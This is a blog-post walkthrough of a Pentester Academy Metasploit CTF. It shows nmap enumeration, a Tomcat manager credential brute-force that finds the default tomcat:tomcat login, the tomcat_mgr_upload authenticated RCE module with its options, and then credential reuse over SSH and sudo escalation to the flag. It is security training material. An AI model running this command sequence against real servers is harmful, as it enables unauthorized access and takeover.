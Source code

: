 +++
author = "Nick"
categories = ["attack defend", "CTF", "basic", "metasploit", "meterpreter", "ssh", "sudo", "tomcat", "authenticated rce"]
date = 2020-01-05T18:56:00Z
description = ""
draft = false
thumbnail = "/images/2019/12/attackdefend-2.png"
slug = "attack-defense-metasploit-ctf-3"
summary = "In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two Metasploit modules. A module to test for valid user credentials and an authenticated RCE."
tags = ["attack defend", "CTF", "basic", "metasploit", "meterpreter", "ssh", "sudo", "tomcat", "authenticated rce"]
title = "Attack | Defense - Metasploit CTF 3"
url = "/attack-defense-metasploit-ctf-3" 

+++


Welcome back to the third entry in this series. In the last entry we used three `Metasploit` modules to obtain `mysql` credentials and leverage them on the target machine.

## Overview
In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two `Metasploit` modules. A module to test for valid user credentials and an authenticated RCE.

## Network Topology

![](/images/2019/12/image-77.png)

## Enumeration
If you've been following along, you know that we being our enumeration process with `nmap`. We'll now start to combine the set of command options we've learned. Let's obtain our IP and scan our subnet:

Command:
`nmap -sV -T5 192.192.223.1/24`

Here are our results:
```
Nmap scan report for target-1 (192.192.223.3)
Host is up (0.000036s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 8.5.37
MAC Address: 02:42:C0:C0:DF:03 (Unknown)

Nmap scan report for target-2 (192.192.223.4)
Host is up (0.000035s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:C0:DF:04 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`Target-1` has two services running. `Jserv` and `Tomcat` both known to have some flaws in them. Let's use `searchsploit` to see if there are any `Metasploit` modules we can leverage.

Command:
`searchsploit jserv`
`searchsploit 'tomcat metasploit'`

![](/images/2019/12/image-78.png)

We see that we have a few `Tomcat` modules but no `Metasploit` modules returned for `Jserv`. Let's load `Metasploit`.

Command:
`msfdb run` or `msfconsole`

Once loaded, lets find the module we want to use.

Command:
`msf5> search tomcat`

![](/images/2019/12/image-80.png)

Quite a few modules come back. We see there are some authenticated modules and some RCE's. However, the first thing we want to try is to enumerate our possible login options. So for that we will use the `tomcat_mgr_login` module.

Command:
`msf5> use auxiliary/scanner/http/tomcat_mgr_login` or `msf5> use 8`

Once our module is loaded, we check our `options`.

Command:
`show options`

In this module, we will want to `set` our `rhosts` and that's it. Now in a larger CTF setting you would probably want to change the `pass_file`. This is the parameter that sets the password list. You could set it to something much larger, like `rockyou.txt` or something you've currated yourself and is more specific.

Command:
`msf5> set rhost target-1`

Then `run` our payload.
`msf5> run`

![](/images/2019/12/CTF_3_tomcat_mod.gif)

We see a successful credential pair: `tomcat`:`tomcat`. The default credentials. Well now that we know we have a valid set of credentials, we can seek to leverage them for an `Authenticated RCE`. 

When we look back on our listing of modules, we see there is an `Authenticated RCE` listed as `tomcat_mgr_upload`. We'll use that.

Command:
`msf5> use exploit/multi/http/tomcat_mgr_upload` or `msf5> use 15`

We check out `options` inside the module.

Command:
`msf5> show options`

![](/images/2019/12/image-81.png)

We have quite a few options to set here: `HttpPassword`, `HttpUsername`, `rhosts` and `rport`.

Commands:
`msf5> set HttpPassword tomcat`
`msf5> set HttpUsername tomcat`
`msf5> set rhosts target-1`
`msf5> set rport 8080`

In this scenario, we are setting our `HttpPassword` and `HttpUsername` to the credentials we verified earlier. Something we haven't done yet is set our `rport`. The default port here is 80, however, we determined that `Tomcat` is running on 8080.

We then `run` our exploit.

Command:
`msf5> run` or `msf5> exploit`

![](/images/2019/12/CTF_3_tomcat_aRCE.gif)

It worked! We not have a valied `Meterpreter` session! This is different than a normal shell. You can read all about what `Meterpreter` is [here](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/). For the purpose of this post, you just need to know it's a more advanced shell. 

We can use standard Linux commands inside this shell to navigate around and do some enumeration. We head to `/home` to see what users are listed.

![](/images/2019/12/image-82.png)

We have one user `devadmin`. Inside his home directory is a file called `note`.

![](/images/2019/12/image-83.png)

We look at it's contents and see some credentials.

![](/images/2019/12/image-84.png)

Great! We can safely assume that we are going to use these credentials to log into `target-2`. We will `background` our current shell just in case we need it later.

Command:
`meterpreter > background`

Then we'll exit the module we were in:

Command:
`msf5> back`

Now we are back to a standard `Metasploit` prompt. We can `SSH` from here! That's right, `Metasploit` will let us use many of our native Linux commands from within it's commandline.

Command:
`msf5> ssh admin@target-2`

We enter the password and accept our fingerprinting.

![](/images/2019/12/CTF_3_tomcat_target-2_ssh.gif)

We have admin credentials on the system but now what? We aren't root but we can try to switch the root user.

Command:
`sudo su`

Once we do that we are given an elevated prompt!

![](/images/2019/12/image-85.png)

We then head to `/root/` to find the `flag` file.

![](/images/2019/12/image-86.png)

Another CTF down! Hopefully this has been a learning experience for anyone that has read it through. Next up Metasploit CTF 4!



